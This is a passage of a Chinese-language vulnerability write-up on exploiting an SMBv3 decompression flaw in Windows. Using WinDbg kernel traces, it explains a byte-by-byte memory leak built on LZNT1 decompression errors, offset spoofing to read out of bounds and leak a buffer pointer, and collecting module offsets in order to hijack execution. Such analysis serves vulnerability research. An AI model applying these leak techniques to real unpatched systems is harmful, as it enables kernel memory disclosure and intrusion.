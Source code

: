 ```
fffff802`52ddd943 493bf2          cmp     rsi,r10
kd&gt; 
nt!LZNT1DecompressChunk+0x676:
fffff802`52ddd946 0f82cd040000    jb      nt!LZNT1DecompressChunk+0xb49 (fffff802`52ddde19)
kd&gt; 
nt!LZNT1DecompressChunk+0xb49:
fffff802`52ddde19 b8420200c0      mov     eax,0C0000242h
```

**单字节泄露思路**

泄露的思路就是利用解压算法的上述特性，在想要泄露的字节后面加上b0（满足压缩标志）以及一定数量的 00 和 FF，00表示的数据为绝对有效数据。当处理完一个压缩块之后，会继续向后取两个字节，如果取到的是00 00，解压就会正常完成，如果是 00 FF 或者 FF FF，解压就会失败。

```
kd&gt; db ffffa508`31ac1158
ffffa508`31ac1158  18 3a 80 34 08 a5 b0 00-00 00 00 00 00 00 00 00  .:.4............
ffffa508`31ac1168  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
ffffa508`31ac1178  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
```

如下所示，a5是想要泄露的字节，先假设可以将测试数据放在后面。根据解压算法可知，首先会取出b0a5，然后和0xfff相与后加3，得到a8，从a5开始数a8个字节，这些数据都属于第一个压缩块。如果要求第二次取出来的双字还是00 00，就需要a8-2+2个字节的00，也就是a5+3。如果00的个数小于x+3，第二次取双字的时候就一定会命中后面的FF，触发错误。采用二分法找到满足条件的x，使得当00的数量为x+3时解压缩正常完成，并且当00的数量为x+2时解压失败，此时得到要泄露的那个字节数据x。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t016ee726994ec9f6ff.png)

下面开始步入正题，一步一步获取关键模块基址，劫持系统执行流程。为了方便描述利用思路，在 Windows 1903 单核系统上进行调试，利用前还需要收集各漏洞版本以下函数在模块中的偏移，以便后续进行匹配，计算相应模块基址及函数地址：

|**srvnet.sys**|**ntoskrnl.exe**
|------
|srvnet!SrvNetWskConnDispatch|nt!IoSizeofWorkItem
|srvnet!imp_IoSizeofWorkItem|nt!MiGetPteAddress
|srvnet!imp_RtlCopyUnicodeString

### <a class="reference-link" name="%E6%B3%84%E9%9C%B2%20User%20Buffer%20%E6%8C%87%E9%92%88"></a>泄露 User Buffer 指针

这一步要泄露的数据是已知大小缓冲区的User Buffer指针（POC中是0x2100）。请求包结构如下，Offset为0x2116，Originalsize为0，由于Offset+Originalsize=0x2116，所以会分配大小为0x4100的User Buffer来存放还原的数据。然而，原始请求包的User Buffer大小为0x2100（可容纳0x10大小的头和0x1101大小的Data），Offset 0x2116明显超出了该缓冲区的长度，在后续的memcpy操作中会存在越界读取。Offset欺骗也是1206的一部分，在取得Offset的值之后没有判断其大小是否超出的User Buffer的界限，从而在解压成功后将这部分数据复制到一个可控的区域。又由于数据未初始化，可利用LZNT1解压将目标指针泄露出来。

[![](https://p3.ssl.qhimg.com/t010c3b8a7fd64be4e9.png)](https://p3.ssl.qhimg.com/t010c3b8a7fd64be4e9.png)

以下为请求包的Srvnet Buffer Header信息，由于复制操作是从Raw Data区域开始（跳过0x10头部），因而越界读取并复制的数据长度为0x2116+0x10-0x2100 = 0x26，这包括存放在Srvnet Buffer Header偏移0x18处的User Buffer指针 0xffffa50836240050。

```
kd&gt; g
request: ffffa508`36240050  424d53fc 00000000 00000001 00002116
srv2!Srv2DecompressData+0x26:
fffff802`51ce7e86 83782410        cmp     dword ptr [rax+24h],10h

kd&gt; dd rax
ffffa508`36242150  2f566798 ffffa508 2f566798 ffffa508
ffffa508`36242160  00010002 00000000 36240050 ffffa508
ffffa508`36242170  00002100 00001111 00002288 c0851000

kd&gt; dd ffffa508`36240050+10+2116-6-10 l8
ffffa508`36242160  00010002 00000000 36240050 ffffa508
ffffa508`36242170  00002100 00001111 00002288 c0851000
```